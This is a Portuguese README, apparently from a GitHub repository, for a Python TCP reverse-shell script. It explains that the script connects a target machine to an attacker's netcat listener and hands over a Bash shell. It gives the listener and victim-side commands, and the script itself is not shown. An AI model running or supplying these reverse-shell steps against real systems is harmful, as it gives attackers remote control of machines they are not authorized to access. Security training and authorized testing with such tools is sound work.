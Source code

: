 # Reverse Shell TCP

Este projeto contém um script Python para criar uma reverse shell via TCP, permitindo que um atacante obtenha acesso remoto a um sistema alvo.

## Arquivo
- `reverse-shell.py`: Script principal que implementa a reverse shell.

## Como funciona
O script conecta-se a um servidor remoto (listener) especificado por IP e porta, redirecionando a entrada e saída padrão para o socket, e executa um shell Bash. Isso permite que o servidor remoto execute comandos no sistema onde o script está rodando.

## Uso
1. **No servidor atacante (listener):**
   Execute um listener na porta desejada, por exemplo usando netcat:
   ```bash
   nc -lvnp <porta>
   ```

2. **Na máquina alvo:**
   Execute o script Python:
   ```bash
   python3 reverse-shell.py <ip_do_servidor> <porta>
   ```
   - `<ip_do_servidor>`: IP do atacante/listener
   - `<porta>`: Porta usada pelo listener

## Exemplo
```bash
# No atacante
nc -lvnp 4444

# Na vítima
python3 reverse-shell.py 192.168.0.100 4444
```

## Requisitos
- Python 3.x
- Sistema operacional com `/bin/bash` disponível

## Aviso Legal
> **Atenção:** Este script é para fins educacionais e de teste em ambientes controlados e autorizados. O uso não autorizado pode ser ilegal. O autor não se responsabiliza por qualquer uso indevido. 